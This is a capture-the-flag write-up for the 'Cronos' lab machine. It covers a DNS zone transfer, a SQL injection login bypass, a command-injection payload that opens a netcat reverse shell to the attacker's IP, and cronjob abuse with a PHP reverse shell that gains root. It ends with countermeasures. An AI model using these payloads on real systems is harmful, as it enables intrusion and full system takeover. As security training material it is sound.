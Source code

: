 # Cronos

![](./images/cronos.png)

#### Machine Release Date: March 22, 2017

## Summary

Cronos was an older medium level machine that leaked its subdomains via a DNS zone transfer.
From there, I found subdomain with a login form where I was able to bypass authentiction via basic MySQL injection.
After logging into the web application, I was able to leverage OS command injection to get remote code execution on the machine.
Once on the machine, I wrote a PHP reverse shell to the file the system's cronjob was executing to get remote code execution as root.

## Skills Learned

* Domain Guessing
* DNS Zone Transfer
* Web Enumeration
* Basic SQL Injection (Auth Bypass)
* Exploiting Cron Jobs

## Active Ports

```bash
sudo nmap -p22,53,80 -sC -sV -oA nmap/full-tcp-version 10.10.10.13
```

```none
Nmap scan report for 10.10.10.13
Host is up (0.030s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep 24 12:54:14 2020 -- 1 IP address (1 host up) scanned in 15.06 seconds
```

## Failed Recon

* Nothing interesting found by brute forcing web files and directories in both `cronos.htb` and `admin.cronos.htb` subdomains.
* PHP password reuse failed.

## DNS Enumeration (DNS Zone Transfer)

With a lucky guess for for the domain name `cronos.htb`, I was able to perform a DNS zone transfer, further discovering more subdomains:

```none
$ dig axfr cronos.htb @10.10.10.13

; <<>> DiG 9.16.6-Debian <<>> axfr cronos.htb @10.10.10.13
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 35 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Thu Sep 24 12:58:54 EDT 2020
;; XFR size: 7 records (messages 1, bytes 203)
```

I then added `cronos.htb`, `admin.cronos.htb`, and `www.cronos.htb` to my `/etc/hosts` file so that my Kali machine would resolve those domain names to 10.10.10.13.
I did this because the Apache web server was hosting different web pages on differnt subdomains using virtual hosting.

## Exploitation (SQL Injection Authentication Bypass)

Navigating to `admin.cronos.htb`, I was presented with a login page.
I was able to use SQL injection at `http://admin.cronos.htb` in the `username` field with the following payload to bypass authentication:

```mysql
' OR 1=1;#
```

![](./images/cronos-admin-cronos-htb-default-login-jpage.png)

![](./images/cronos-username-field-sql-injection-auth-bypass.png)

I was then able to submit the following payload in the web form to achieve OS command injection and get a netcat reverse shell:

```none
10.10.10.19; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 2001 >/tmp/f
```

```none
$ ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.13.
Ncat: Connection from 10.10.10.13:35428.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation (Cronjob Running Writeable Script by Low-Privileged User)

I noticed that the `/etc/crontab` file executed `/var/www/laravel/artisan` every minute.
This directory was writeable by the `www-data` user which meant that I should be able to replace that file with a PHP reverse shell to gain root access to the machine:

```none
www-data@cronos:/var/www/admin$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
#

www-data@cronos:/var/www/admin$ ls -l /etc/crontab
-rw-r--r-- 1 root root 797 Apr  9  2017 /etc/crontab

www-data@cronos:/var/www/admin$ ls -l /var/www/laravel/artisan
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 /var/www/laravel/artisan
```

After making a backup of `/var/www/laravel/artisan`, I embedded [the following php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) in `/var/www/laravel/artisan` so that it would execute it, connecting back to my netcat listener in the next minute:

```none
$ ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.13.
Ncat: Connection from 10.10.10.13:52538.
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 21:28:01 up 10 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
1703b8a3c9a8dde879942c79d02fd3a0
```

At this point, I had a reverse shell with root privileges.

## Countermeasures

* Only allow DNS zone transfers [from trusted IPs](https://www.acunetix.com/blog/articles/dns-zone-transfers-axfr/).
* Use [prepared statements](https://dev.mysql.com/doc/refman/8.0/en/sql-prepared-statements.html) for all SQL queries so that data does not get interpreted as code.
* Never run cron jobs that depend on scripts writeable by low-privielged users.

